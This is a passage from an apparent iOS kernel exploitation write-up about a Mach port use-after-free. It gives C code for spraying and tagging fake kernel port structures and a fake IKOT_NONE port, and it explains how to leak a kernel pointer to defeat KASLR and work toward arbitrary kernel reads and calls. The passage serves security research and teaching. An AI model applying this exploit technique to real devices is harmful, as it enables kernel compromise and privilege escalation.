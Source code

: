 ```c
volatile kport_t *dptr = ...;
for(size_t j = 0; j < DATA_SIZE / sizeof(kport_t); ++j)
{
    dptr[j].ip_context = (dptr[j].ip_context & 0xffffffff) | ((uint64_t)(0x10000000 | i) << 32);
    dptr[j].ip_messages.port.pad = 0x20000000 | i;
    dptr[j].ip_lock.pad = 0x30000000 | i;
}
```

Now when using the result of `mach_port_get_context`, the bits `0x3000000000000000` tell us whether our port was on page one, two or three, and the bits `0x0fffffff00000000` allow us to identify on which `OSString` it resides.

### Reading memory and defeating KASLR

Now we can properly reallocate it, but with what? In the end we'll probably want an `IKOT_IOKIT_CONNECT`-type port with a fake `IOUserClient` object, allowing us to call arbitrary kernel code, so at the very least we'll need to know the kernel slide. To get there, we probably also want to use `pid_for_task` with a fake task to read arbitrary memory first, but for that we need an address to start from, and so far we don't know a single valid kernel pointer. At this point I figured I had two options:

- Leverage a kernel pointer comparison (such as with the clock system port) to brute-force the kernel slide.
- Get a valid pointer into our fake port struct somehow and read back the `OSString`.

The former sounds like a horrible idea in our setting - since we have to change `ip_kobject`, we'd have to reallocate the `OSString` over and over, each time risking the memory getting snatched by someone else. The latter, however, turns our to be very viable. In the kernel's `struct ipc_port` there are a number of `struct ipc_port *` members, one of which is `ip_pdrequest`. That field can hold a pointer to a mach port which is to be notified on port death, and it can be set via `mach_port_request_notification`, provided the target port is of type `IKOT_NONE` (i.e. target is in userland) and the notification port is a send-once or receive right (from which a send-once one can be made). So let's create an `IKOT_NONE` port:

```c
kport_t kport =
{
    .ip_bits = 0x80000000, // IO_BITS_ACTIVE | IOT_PORT | IKOT_NONE
    .ip_references = 100,
    .ip_lock =
    {
        .type = 0x11,
    },
    .ip_messages =
    {
        .port =
        {
            .receiver_name = 1,
            .msgcount = MACH_PORT_QLIMIT_KERNEL,
            .qlimit = MACH_PORT_QLIMIT_KERNEL,
        },
    },
    .ip_srights = 99,
};
```


  [windknown]: https://twitter.com/windknown
  [ianbeer]: https://twitter.com/i41nbeer
  [blog]: http://blog.pangu.io/iosurfacerootuserclient-port-uaf/
  [mach_portal]: https://bugs.chromium.org/p/project-zero/issues/attachment?aid=280146